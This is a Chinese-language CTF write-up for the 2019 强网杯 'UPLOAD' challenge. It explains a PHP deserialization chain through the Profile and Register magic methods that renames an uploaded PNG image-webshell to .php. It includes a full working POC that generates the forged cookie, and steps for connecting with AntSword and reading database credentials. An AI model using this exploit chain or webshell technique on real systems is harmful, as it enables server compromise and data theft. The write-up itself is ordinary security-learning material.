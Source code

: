 # \[强网杯 2019] UPLOAD

## \[强网杯 2019] UPLOAD

## 考点

*

## wp

https://www.zhaoj.in/read-5873.html

### 分析

1. 只能上传正常的图片，非 png 格式会自动转化为 png，图片被保存在 upload 目录下
2. 本题是 www.tar.gz 泄露，源码泄露总结
3. 函数流程：
   1. 没有登陆时，跳转到 index.php，进行注册登陆。login\_check 函数将 cookie('user') 赋给 profile，然后 base64 解码反序列化
   2. 在注册页面调用 login\_check 函数检查是否登陆，是则跳转到 index.php/home ，否则进行注册
   3. 在登陆页面调用 login\_check 函数检查是否登陆，是则跳转到 index.php/home ，否则进行登陆
   4. 已经登陆时，跳转到 index.php/home 进行文件上传操作
   5. 在进行上传操作时，对请求头中的 REMOTE\_ADDR 进行 md5 加密并赋给 upload\_menu ，然后创建以 upload\_menu 命名的文件夹
   6. 然后进行登陆检查，然后将文件的临时副本的名称赋给 filename\_tmp，将文件名(不加后缀)进行 md5 加密后赋给 filename
   7. 然后进行后缀检测，将 filename 的后缀赋给 ext，如果 ext 为 png 返回 1，否则返回 0
   8. 如果后缀是 png，检查图片内容，然后将 filename 赋给 filename\_tmp，将图片相对路径赋给 img，执行 update\_img 函数
   9. update\_img 函数先进行 user 查询，如果 user 没有上传过图片并且 img 存在，则更新 user 表的 img 字段，并执行 update\_cookie 函数
   10. update\_cookie 函数将上传图片的 img 进行序列化和 base64 编码后赋给 cookie 的 user
   11. profile 的 \_call 和 \_get 两个魔术方法，分别书写了在调用不可调用方法和不可调用成员变量时怎么做。\_\_get 会直接从 except 里找，\_\_call 会调用自身的 name 成员变量所指代的变量所指代的方法。

## 攻击流程

注册，登陆。登陆之后有个跳转的过程，这里就有了 cookie，如图

![](https://wcgimages.oss-cn-shenzhen.aliyuncs.com/myctf/buuctf/qwb\_upload\_1.png)

解码后如图

![](https://wcgimages.oss-cn-shenzhen.aliyuncs.com/myctf/buuctf/qwb\_upload\_2.png)

选择上传图片，这个图片就是合成的图片马，从 [阿里巴巴矢量图库](https://www.iconfont.cn) 下载一个 png 图片，然后蚁剑生成一个 shell，用 hex 编辑器直接将 shell 内容放在图片后面即可。这里使用阿里的图库是因为网上的 png 图片可能 hex 格式不规范，导致后面改名之后会报 parse error

上传图片之后，会在 upload 目录下生成一个 md5(REMOTE\_ADDR) 文件，而且文件名也会被 md5 加密，这时 cookie\['user'] 如图

![](https://wcgimages.oss-cn-shenzhen.aliyuncs.com/myctf/buuctf/qwb\_upload\_3.png)

解码后如图

![](https://wcgimages.oss-cn-shenzhen.aliyuncs.com/myctf/buuctf/qwb\_upload\_4.png)

使用 poc 生成的序列化结果修改 cookie\['user']，刷新一次即可修改后缀。在服务器反序列化的过程中，在 Register 类中执行析构函数，调用 $profile 的 index() 函数，在 Profile 类的 \_\_get 函数中定义了如果调用 index() 就去调用 img，而 \_\_call 函数规定调用不可调用的函数时就调用 img 对应的函数，这样就控制函数跳转到 upload\_img 函数，然后执行复制函数，将 png 改为 php，并删除原有的 png，至此，后缀修改完成。

最后直接用蚁剑连接 shell，读取配置文件中的数据库信息，选择 mysqli 驱动连接到数据库，即可读取 flag

最终 poc 如下，修改上传图片地址即可

```php
<?php
namespace app\web\controller;

class Profile
{
    public $checker;
    public $filename_tmp;
    public $filename;
    public $upload_menu;
    public $ext;
    public $img;
    public $except;

    public function __get($name)
    {
        return $this->except[$name];
    }

    public function __call($name, $arguments)
    {
        if($this->{$name}){
            $this->{$this->{$name}}($arguments);
        }
    }

}

class Register
{
    public $checker;
    public $registed;

    public function __destruct()
    {
        if(!$this->registed){
            $this->checker->index();
        }
    }

}

$profile = new Profile();
$profile->except = ['index' => 'img'];
$profile->img = "upload_img";
$profile->ext = "png";
//修改地址即可
$profile->filename_tmp = "../public/upload/24ff17b3e72d90d210f3455327ea52f7/36a767e7b2d8d3bde3f881217a418ebb5.png";
$profile->filename = "../public/upload/24ff17b3e72d90d210f3455327ea52f7/6a767e7b2d8d3bde3f881217a418ebb5.php";

$register = new Register();
$register->registed = false;
$register->checker = $profile;

echo urlencode(base64_encode(serialize($register)));
?>
```



> mysqli 是 PHP 驱动数据库的一种方式，以前是使用 mysql 的，而 mysqli 相比于 mysql 更加安全高效
>
> copy(a, b)，a 和 b 是文件路径，将文件从 a 拷贝到 b，比如 copy("./1.png", "./1.php" ) 执行之后会存在两个文件 1.png 和 1.php
>
> unlink(a)，a 是文件路径，删除文件 a
